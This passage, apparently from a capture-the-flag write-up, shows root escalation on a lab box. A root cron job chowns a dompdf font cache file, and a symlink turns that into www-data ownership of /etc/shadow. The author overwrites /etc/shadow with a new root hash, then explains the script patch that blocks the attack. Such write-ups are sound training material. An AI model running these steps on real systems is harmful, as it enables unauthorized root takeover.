    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /tmp/0xdf dompdf_font_family_cache.php
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l dompdf_font_family_cache.php
    lrwxrwxrwx 1 www-data www-data 9 Feb 13 20:53 dompdf_font_family_cache.php -> /tmp/0xdf
    

When the five-minute cron runs, `/tmp/0xdf` is there:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /tmp/0xdf 
    -rwxrwxrwx 1 www-data www-data 2863 Feb 13 20:55 /tmp/0xdf
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ head /tmp/0xdf
    <?php return function ($fontDir, $rootDir) {
    return array (
      'sans-serif' => array(
        'normal' => $fontDir . '/Helvetica',
        'bold' => $fontDir . '/Helvetica-Bold',
        'italic' => $fontDir . '/Helvetica-Oblique',
        'bold_italic' => $fontDir . '/Helvetica-BoldOblique',
      ),
      'times' => array(
        'normal' => $fontDir . '/Times-Roman',
    

It’s owned by www-data, and has a clean version of the expected file.

### Overwrite shadow

#### File Fails

There are a handful of root owned files that I could overwrite to get
execution, but many come with reasons why they won’t work. For example,
`/etc/sudoers` won’t work unless it’s owned by root:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ sudo -l
    sudo: /etc/sudoers is owned by uid 33, should be 0
    sudo: no valid sudoers sources found, quitting
    sudo: unable to initialize policy plugin
    

Similarly, `/root/.ssh/authorized_keys` will just be ignored unless it’s owned
by root and permissions 600.

I can try `/etc/passwd`, but it breaks things, and doesn’t quite work. The
group changes, but the user does not:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /etc/passwd dompdf_font_family_cache.php          
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /etc/passwd
    -rw-r--r-- 1 root www-data 2863 Feb 13 21:10 /etc/passwd
    

And now, any auth or user-related operations on the box are dorked. I’ll need
a reset.

#### shadow

The option that works is `/etc/shadow`. I’ll update the link to point to it:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /etc/shadow dompdf_font_family_cache.php
    

After a few minutes, it’s overwritten with the PHP, and the ownership has
changed:

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /etc/shadow
    -rw-r----- 1 www-data www-data 2863 Feb 13 21:15 /etc/shadow
    

I’ll generate a password hash using `openssl`:

    
    
    www-data@interface:~$ openssl passwd -6 0xdf0xdf
    $6$b3swpjX7i9uUl2Tt$QgeVADzJcbbszwzBgrdFb2uI6EA8gabZvhPXbIrhWhfVljCqSsmmsalI97DfI3SYUX9SSqOjYo9AvVZZAPwaK0
    

Now I’ll write an entry in the shadow to match the format described
[here](https://linuxize.com/post/etc-shadow-file/):

    
    
    www-data@interface:~$ echo 'root:$6$b3swpjX7i9uUl2Tt$QgeVADzJcbbszwzBgrdFb2uI6EA8gabZvhPXbIrhWhfVljCqSsmmsalI97DfI3SYUX9SSqOjYo9AvVZZAPwaK0:17736:0:99999:7:::' > /etc/shadow
    

It is important to use single quotes on that `echo`, or the `$` will be
evaluated as variables. With this in place, I can `su` as root using the
password “0xdf0xdf”:

    
    
    www-data@interface:~$ su -
    Password: 
    root@interface:~#
    

### Script Analysis

There’s a cleanup script running as root:

    
    
    root@interface:~# crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    */2 * * * * /usr/local/sbin/cleancache.sh
    */5 * * * * /root/clean.sh
    

The one that runs every two minutes is the one meant to be exploited. The one
running every five is meant to cleanup artifacts from players for the foothold
exploitation.

Today, that script is:

    
    
    #! /bin/bash
    find /var/www/api/vendor/dompdf/dompdf/lib/fonts/ -type f -cmin -5 -exec rm {} \;
    cp /root/font_cache/dompdf_font_family_cache.php.bak /root/font_cache/dompdf_font_family_cache.php
    chown www-data /root/font_cache/dompdf_font_family_cache.php
    chgrp www-data /root/font_cache/dompdf_font_family_cache.php
    mv /root/font_cache/dompdf_font_family_cache.php /var/www/api/vendor/dompdf/dompdf/lib/fonts/dompdf_font_family_cache.php
    

On release, it was:

    
    
    #! /bin/bash
    find /var/www/api/vendor/dompdf/dompdf/lib/fonts/ -type f -cmin -5 -exec rm {} \;
    cp /root/font_cache/dompdf_font_family_cache.php /var/www/api/vendor/dompdf/dompdf/lib/fonts/dompdf_font_family_cache.php
    chown www-data /var/www/api/vendor/dompdf/dompdf/lib/fonts/dompdf_font_family_cache.php
    chgrp www-data /var/www/api/vendor/dompdf/dompdf/lib/fonts/dompdf_font_family_cache.php
    

Both start off by removing any files in the `fonts` directory that are
modified in the last five minutes minutes. The original script then copies a
clean `dompdf_font_family_cache.php` into `fonts`, and changes the ownership
and group.

The patched script makes a copy within `/root`, and changes the ownership
there. Then it moves that copy into place. This prevents the symlink attack.

